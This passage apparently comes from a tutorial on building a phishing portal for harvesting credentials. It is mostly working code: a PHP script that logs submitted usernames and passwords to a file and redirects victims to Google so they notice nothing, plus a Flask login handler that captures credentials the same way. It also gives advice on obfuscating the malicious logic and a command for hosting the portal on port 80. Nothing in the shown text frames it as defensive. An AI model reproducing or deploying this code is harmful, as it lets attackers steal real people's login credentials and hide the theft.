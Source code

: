 ```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];
$file = fopen("credentials.txt", "a");
fwrite($file, "Username: $username | Password: $password\n");
fclose($file);
header("Location: https://www.google.com"); // Redirect to a benign site
?>
```

**Key Features**:
- **File Logging**: Appends credentials to `credentials.txt` for later retrieval.  
- **Database Integration**: Advanced implementations store data in MySQL or SQLite for scalability.  
- **Redirection**: Redirects users to a legitimate site (e.g., Google) to avoid raising alarms.  

**Advanced Techniques**:
- **Obfuscation**: Encode PHP scripts using tools like `ionCube` to hide malicious logic.  
- **Dynamic Content**: Use PHP to generate unique session tokens or timestamps for tracking.  

---

### **3. Python for Hosting and Automation**

Python provides lightweight hosting solutions and automation capabilities. Two common approaches are:

#### **a. Simple HTTP Server**  
Use Python’s built-in `http.server` module to host the phishing portal:

```bash
python3 -m http.server 80
```

This command starts a basic web server on port 80, serving files from the current directory. While suitable for static content, it lacks dynamic processing capabilities.

#### **b. Flask-Based Hosting**  
For dynamic content and automation, Flask is preferred. Example code:

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    with open('creds.txt', 'a') as f:
        f.write(f"User: {username} | Pass: {password}\n")
    return "Thank you for logging in!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
